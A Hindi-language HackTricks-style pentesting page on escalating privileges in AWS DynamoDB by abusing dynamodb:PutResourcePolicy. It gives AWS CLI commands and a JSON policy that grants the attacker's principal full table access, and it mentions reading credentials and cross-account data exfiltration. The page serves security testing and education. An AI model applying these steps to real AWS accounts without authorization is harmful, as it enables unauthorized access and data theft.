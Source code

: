 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

dynamodb के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, और वैकल्पिक रूप से `dynamodb:GetResourcePolicy`

मार्च 2024 से, AWS *resource based policies* को DynamoDB के लिए पेश करता है ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/))।

तो, यदि आपके पास किसी तालिका के लिए `dynamodb:PutResourcePolicy` है, तो आप बस अपने आप या किसी अन्य प्रिंसिपल को तालिका तक पूर्ण पहुंच दे सकते हैं।

किसी यादृच्छिक प्रिंसिपल को `dynamodb:PutResourcePolicy` देना अक्सर गलती से होता है, यदि व्यवस्थापक सोचते हैं कि `dynamodb:Put*` देने से केवल प्रिंसिपल को डेटाबेस में आइटम डालने की अनुमति मिलेगी - या यदि उन्होंने मार्च 2024 से पहले वह अनुमति सेट दी थी...

आदर्श रूप से, आपके पास `dynamodb:GetResourcePolicy` भी होना चाहिए, ताकि आप अन्य संभावित महत्वपूर्ण अनुमतियों को अधिलेखित न करें, बल्कि केवल उन अतिरिक्त अनुमतियों को इंजेक्ट करें जिनकी आपको आवश्यकता है:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
यदि आप वर्तमान नीति को पुनः प्राप्त नहीं कर सकते हैं, तो बस इस नीति का उपयोग करें जो आपके प्रिंसिपल को तालिका पर पूर्ण पहुंच प्रदान करती है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
यदि आपको इसे अनुकूलित करने की आवश्यकता है, तो यहाँ सभी संभावित DynamoDB क्रियाओं की एक सूची है: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html)। और यहाँ उन सभी क्रियाओं की एक सूची है जिन्हें संसाधन आधारित नीति के माध्यम से अनुमति दी जा सकती है *और इनमें से कौन सी क्रियाएँ क्रॉस-खाता उपयोग की जा सकती हैं (डेटा निकासी के बारे में सोचें!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

अब, नीति दस्तावेज़ `policy.json` तैयार है, संसाधन नीति डालें:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
अब, आपके पास आवश्यक अनुमतियाँ होनी चाहिए।

### पोस्ट एक्सप्लोइटेशन

जितना मुझे पता है, AWS में केवल कुछ AWS `dynamodb` अनुमतियाँ होने के कारण विशेषाधिकार बढ़ाने का **कोई अन्य प्रत्यक्ष तरीका नहीं है**। आप तालिकाओं से **संवेदनशील** जानकारी पढ़ सकते हैं (जिसमें AWS क्रेडेंशियल्स हो सकते हैं) और तालिकाओं पर **जानकारी लिख सकते हैं** (जो अन्य कमजोरियों को ट्रिगर कर सकता है, जैसे कि लैम्ब्डा कोड इंजेक्शन...) लेकिन ये सभी विकल्प पहले से ही **DynamoDB पोस्ट एक्सप्लोइटेशन पृष्ठ** में विचार किए गए हैं:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: डेटा स्ट्रीम का दुरुपयोग करके डेटा पढ़ें

{{#include ../../../banners/hacktricks-training.md}}
